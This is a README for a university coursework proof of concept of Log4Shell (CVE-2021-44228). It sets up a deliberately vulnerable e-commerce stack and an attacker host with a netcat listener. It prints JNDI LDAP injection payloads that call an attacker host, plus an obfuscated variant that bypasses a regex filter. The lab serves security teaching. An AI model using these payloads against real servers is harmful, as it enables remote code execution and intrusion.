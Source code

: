 # TPAS Log4Shell PoC

This repository contains a Proof of Concept (PoC) for the Log4Shell vulnerability (CVE-2021-44228), developed as part of the coursework for the curricular unit TPAS in the Master's degree in Information Security at FCUP.

It features:
 - A React SPA frontend that simulates a generic e-commerce website with basic features such as browsing products and view basic details such as description, price, rating, etc.., provided via the dummy json api https://dummyjson.com/docs/products
 - A Spring Boot REST API backend that uses a vulnerable version of Log4j 2.14.
 - A bash script that sets up most of the attacker side of things needed to exploit Log4Shell.

To run this stack you need to:
 - On the target host:
     - Install docker
     - Replace the <target_ip> on the NEXT_PUBLIC_BACKEND_URL env var on docker-compose.yaml
     - Run docker-compose up
 - On the attacker host:
     - Install java, python and maven
     - Open the required ports, "./init.sh --help" to see the ports and what the script does
     - Run the script init.sh
     - Run a netcat listener, nc -lvnp <port>

Once everything is running:

Place this payload on the search bar (URL encoded since it will be on a GET query param):

```
%24%7Bjndi%3Aldap%3A%2F%2F<attacker_host_ip>%3A<ldap_port>%2FExploit%7D
```

Or place this payload on the headers of a request (you can use burp suite to intercept a request and tamper it):

```
${jndi:ldap://<attacker_host_ip>:<ldap_port>/Exploit}
```

On the website, there is an icon next to the user's name that allows toggling between sanitizing the logged string using the regular expression \\$\\{jndi:.*?} or not. By default, sanitization is disabled, represented by a red demon icon. When sanitization is enabled, the icon changes to a green smiley face.

This feature can be used as a way of simulating a WAF bypass, you can add more regular expressions on the backend's LoggerManager.java class.

Here's a payload that will not be matched by the current regex:

```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://<attacker_host_ip>:<ldap_port>/Exploit}
```
